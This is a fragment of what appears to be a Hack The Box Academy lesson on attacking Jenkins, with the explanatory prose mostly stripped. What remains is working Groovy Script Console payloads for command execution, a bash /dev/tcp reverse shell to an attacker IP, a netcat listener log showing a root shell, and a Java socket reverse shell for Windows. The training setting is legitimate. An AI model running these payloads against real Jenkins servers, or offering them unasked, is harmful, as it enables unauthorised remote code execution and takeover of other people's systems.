 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/1212
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 1212
// Section Title: Attacking Jenkins
// Page Title: Attacking Common Applications
// Page Number: 12
-->

# Attacking Jenkins

**Module Name:** Attacking Common Applications **Page Number:** 12

#### ATTACKING COMMON APPLICATIONS

# Attacking Jenkins

## Script Console

``` groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

![https://academy.hackthebox.com/storage/modules/113/groovy_web.png](https://academy.hackthebox.com/storage/modules/113/groovy_web.png)

``` groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

``` shell-session
[!bash!]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

``` groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

``` groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Miscellaneous Vulnerabilities

## Shifting Gears

# 

# 

#### Questions

####